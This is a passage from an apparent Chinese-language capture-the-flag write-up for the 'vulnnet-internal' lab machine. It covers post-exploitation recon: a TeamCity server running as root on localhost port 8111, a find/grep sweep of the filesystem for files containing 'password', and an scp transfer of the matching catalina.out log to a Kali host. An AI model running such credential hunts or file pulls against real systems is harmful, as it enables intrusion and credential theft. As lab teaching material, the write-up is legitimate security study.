 ```
drwxr-xr-x  6 root root  4096 Aug 11 10:51 temp
-rw-r--r--  1 root root 16984 Feb  6  2021 Tomcat-running.txt
drwxr-xr-x  3 root root  4096 Feb  6  2021 webapps
drwxr-x---  3 root root  4096 Feb  6  2021 work
```

teamcity以root权限运行：

```
sys-internal@vulnnet-internal:~$ ps aux | grep teamcity
root       569  0.0  0.0   4628   652 ?        S    10:45   0:00 sh teamcity-server.sh _start_internal
root       579  0.0  0.0   4752  1868 ?        S    10:45   0:00 sh /TeamCity/bin/teamcity-server-restarter.sh run

...
```

在TeamCity/TeamCity-readme.txt中，发现安装帮助文档：https://www.jetbrains.com/help/teamcity/install-and-start-teamcity-server.html

在目标监听的TCP端口上，可以看到在IPV6的 `[::ffff:127.0.0.1]:8111` 上正在监听。

要使用 `find` 命令在文件系统中查找包含特定字符串（如 "password"）的文件，可以使用以下命令：

```bash
find /path/to/search -type f -exec grep -l "password" {} +
```

在这个命令中：

- `/path/to/search`：将被搜索的起始路径替换为你要搜索的实际路径。
- `-type f`：限定搜索只查找文件，不包括目录。
- `-exec grep -l "password" {} +`：在找到的每个文件上执行 `grep -l "password"`，其中：
  - `-l` 选项表示只显示包含匹配字符串的文件名。
  - `{}` 用于表示找到的文件名。
  - `+` 表示将多个文件名一起传递给 `grep` 命令，以提高效率。

示例用法：

```bash
find / -type f -exec grep -l "password" {} +
```

上述命令将从根目录开始递归地搜索包含 "password" 字符串的所有文件，并将结果列出。

```
sys-internal@vulnnet-internal:/TeamCity$ find . -type f -exec grep -l "password" {} + 2>/dev/null

./logs/catalina.out

```

```
┌──(root㉿kali)-[~/Downloads]
└─# scp sys-internal@10.10.181.118:/TeamCity/logs/catalina.out /root/Downloads/
catalina.out                                                                                                               100%  161KB  85.6KB/s   00:01  
```
